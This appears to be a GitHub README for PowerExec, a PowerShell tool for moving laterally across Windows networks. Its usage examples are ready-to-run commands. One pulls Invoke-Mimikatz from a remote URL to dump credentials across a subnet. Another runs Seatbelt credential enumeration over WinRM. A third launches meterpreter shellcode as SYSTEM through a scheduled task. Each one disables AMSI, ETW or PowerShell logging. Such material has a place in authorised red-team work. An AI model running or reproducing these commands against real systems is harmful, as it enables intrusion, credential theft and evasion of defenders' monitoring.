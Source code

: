 # PowerExec

PowerExec is a PowerShell tool to move laterally on a Windows network.

## Functions

```
Invoke-PowerExec                -   execute PowerShell script block on remote computers through various methods
New-PowerLoader                 -   build script block which safely loads PowerShell, .NET assembly or shellcode
```

## Examples

Run a PowerShell script through WMI using a download cradle while bypassing Antimalware Scan Interface (AMSI) and Event Tracing for Windows (ETW):

```
PS C:\> New-PowerLoader -Type PoSh -FileUrl 'https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1' -ArgumentList 'Invoke-Mimikatz -DumpCreds' -Bypass AMSI,ETW | Invoke-PowerExec -ComputerList 192.168.1.0/24 -Method WMI -Threads 10
```

Run a .NET assembly through WinRM while bypassing AMSI, Script Block Logging (SBL) and PowerShell Module Logging (PML):

```
PS C:\> New-PowerLoader -Type NetAsm -FilePath .\Seatbelt.exe -ArgumentList 'CredEnum' -Bypass AMSI,SBL,PML | Invoke-PowerExec -ComputerList 192.168.1.1,192.168.1.2 -Method WinRM
```

Run a shellcode through a scheduled task as NT AUTHORITY\SYSTEM while bypassing AMSI :

```
PS C:\> New-PowerLoader -Type Shellcode -FilePath .\meterpreter.bin -Bypass AMSI | Invoke-PowerExec -ComputerList 192.168.1.1 -Method SchTask
```

## Credits

  * https://rastamouse.me/blog/asb-bypass-pt3/
  * https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
  * https://www.bc-security.org/post/powershell-logging-obfuscation-and-some-newish-bypasses-part-1/
  * https://blog.xpnsec.com/hiding-your-dotnet-etw
  * https://www.fireeye.com/blog/threat-research/2017/03/wmimplant_a_wmi_ba.html
